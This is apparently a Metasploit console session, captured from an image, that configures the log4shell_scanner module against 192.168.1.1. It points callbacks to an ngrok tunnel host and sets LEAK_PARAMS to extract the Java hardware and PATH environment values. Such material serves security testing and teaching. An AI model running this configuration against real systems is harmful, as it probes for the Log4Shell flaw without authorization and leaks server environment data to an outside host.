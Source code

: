 ```shell
msf6 auxiliary(scanner/http/log4shell_scanner) > set srvhost 4.tcp.eu.ngrok.io
srvhost => 4.tcp.eu.ngrok.io
msf6 auxiliary(scanner/http/log4shell_scanner) > set srvport 13743
srvport => 13743
msf6 auxiliary(scanner/http/log4shell_scanner) > set ListenerBindAddress 0.0.0.0
ListenerBindAddress => 0.0.0.0
msf6 auxiliary(scanner/http/log4shell_scanner) > set ListenerBindPort 389
ListenerBindPort => 389
msf6 auxiliary(scanner/http/log4shell_scanner) > set LEAK_PARAMS ${java:hw}^${env:PATH}
LEAK_PARAMS => ${java:hw}^${env:PATH}
msf6 auxiliary(scanner/http/log4shell_scanner) > options

Module options (auxiliary/scanner/http/log4shell_scanner):

   Name          Current Setting                           Required  Description
   ----          ---------------                           --------  -----------
   HEADERS_FILE  /root/http_headers.txt                    no        File containing headers to check
   HTTP_METHOD   GET                                       yes       The HTTP method to use
   LDAP_TIMEOUT  30                                        yes       Time in seconds to wait to receive LDAP connections
   LDIF_FILE                                               no        Directory LDIF file path
   LEAK_PARAMS    ${java:hw}^${env:PATH}                   no        Additional parameters to leak, separated by the ^ character (e.g., ${env
                                                                     :USER}^${env:PATH})
   Proxies                                                 no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS        192.168.1.1                               yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPORT         443                                       yes       The target port (TCP)
   SRVHOST       4.tcp.eu.ngrok.io                         yes       The local host or network interface to listen on. This must be an address
                                                                     on the local machine or 0.0.0.0 to listen on all addresses.
   SRVPORT       13743                                     yes       The local port to listen on.
   SSL           true                                      no        Negotiate SSL/TLS for outgoing connections
   TARGETURI     /                                         yes       The URI to scan
   THREADS       1                                         yes       The number of concurrent threads (max one per host)
   URIS_FILE     /root/http_uris.txt                       no        File containing additional URIs to check
   VHOST                                                   no        HTTP server virtual host

msf6 auxiliary(scanner/http/log4shell_scanner) > advanced

Module advanced options (auxiliary/scanner/http/log4shell_scanner):

   Name                               Current Setting                    Required  Description
   ----                               ---------------                    --------  -----------
   AddClassPath                                                          no        Additional java classpath
   DOMAIN                             WORKSTATION                        yes       The domain to use for Windows authentication
   DigestAuthIIS                      true                               no        Conform to IIS, should work for most servers. Only set to
                                                                                   false for non-IIS servers
   FingerprintCheck                   true                               no        Conduct a pre-exploit fingerprint verification
   HttpClientTimeout                                                     no        HTTP connection and receive timeout
```